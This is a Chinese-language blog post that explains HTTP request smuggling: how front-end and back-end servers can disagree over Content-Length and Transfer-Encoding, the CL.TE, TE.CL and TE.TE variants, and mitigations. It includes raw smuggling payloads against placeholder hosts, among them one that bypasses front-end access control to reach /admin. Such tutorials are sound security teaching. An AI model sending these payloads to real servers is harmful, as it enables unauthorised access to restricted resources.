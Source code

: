 ```yaml
---
title: HTTP Request Smuggling
date: 2021-05-22 15:46:41
tags:
- http
- security
categories:
- http security
---
```


# HTTP Request Smuggling

現今的Web應用程式架構通常由frontend server(load balancer)將http request轉給backend server，且front-end server與backend server間會使用persistent connection來減少反覆建立tcp開銷(3 way handshake、slow start)。HTTP smuggling透過frontend server與backend server對http body長度判斷依據不同，將干擾的資訊prepend在下個request達成攻擊。

![](https://i.imgur.com/oNHq051.png)

## HTTP1.x 判斷message body的方式

### Content-Length

當client與server用同一個tcp連線來傳送多個http request時，要如何知道http的結尾？透過Content-Length header來聲明message body的長度

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### Transfer-Encoding

因為header必須要送到，因此當app要動態的產生message body而沒辦法預先知道message body長度時就沒辦法用Content-Length。Transfer-Encoding header聲明message body會透過將message切成多個chunks傳送，每個chunk的開頭是chunk size(十六進制表示)接著CRLF，再接著chunk content，收到chunk size 0時表示message body結束

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## 如何執行HTTP smuggling

雖然rfc有規範當同時出現Content-Length與Transfer-Encoding時，應該要採用Transfer-Encoding，但現實世界卻不一定會是這樣，像是有些server不支援TE。而當request同時帶有CL與TE且frontend server與backend server對body邊界的認定不同時，就可能產生弱點

### CL.TE vulnerabilities

frontend server看CL，backend server看TE

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

frontend server因為看CL，所以會把整包轉給backend server，但backend server看TE，因此只讀到chunk size 0就認為這次request結束並回response，而剩下的message(`G`)，backend server會認為是下個http request而先buffer住直到剩下的header到

下個request就會像是以下範例，因不認得GPOST這個method而得到錯誤

```
GPOST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
```

### TE.CL vulnerabilities

frontend server看TE，backend server看CL

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

frontend server因為看TE，所以會把整包轉給backend server，但backend server看CL，因此只讀到第一行(5c跟CRLF共4個bytes)就認為這次request結束並回response，而剩下的message，backend server會認為是下個http request而先buffer住直到剩下的header到

下個request就會像是以下範例，因不認得GPOST這個method而得到錯誤

```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
```

### TE.TE behavior: obfuscating the TE header

frontend server與backend server都支援處理TE，藉由帶入錯誤的TE來混淆，而frontend server與backend server對混淆的TE處理方式不同時，像是其中一個server被混淆而去看CL時，就形成上述的兩種情況之一

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```

## 用HTTP smuggling繞過frontend server的存取控制

這裡舉個比較真實的例子。有些應用程式會在frontend server做存取控制，像是限制只有有權限的使用者才能存取特定endpoint，frontend server只轉有權限的使用者的request給backend server，backend server則完全信任fronent server bypass後的request，因此backend server不做任何權限驗證

假設攻擊者只能存取`/home`而不能存取`/admin`，攻擊者藉由http smuggling方法，讓frontend server看到兩次存取`/home`的request，backend server看到一次`/home`與一次`/admin`的request，而第二次request繞過frontend server的限制存取受限的資源

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

## 如何避免http smuggling

* backend server不使用persistent connection，因此每個request都是不同的connection
* backend server使用http2，http2使用不同於http1.x的封包格式
* frontend server與backend server使用相同的方式來判定message body的長度

## Reference

* [HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)
* [Exploiting HTTP request smuggling vulnerabilities
](https://portswigger.net/web-security/request-smuggling/exploiting)
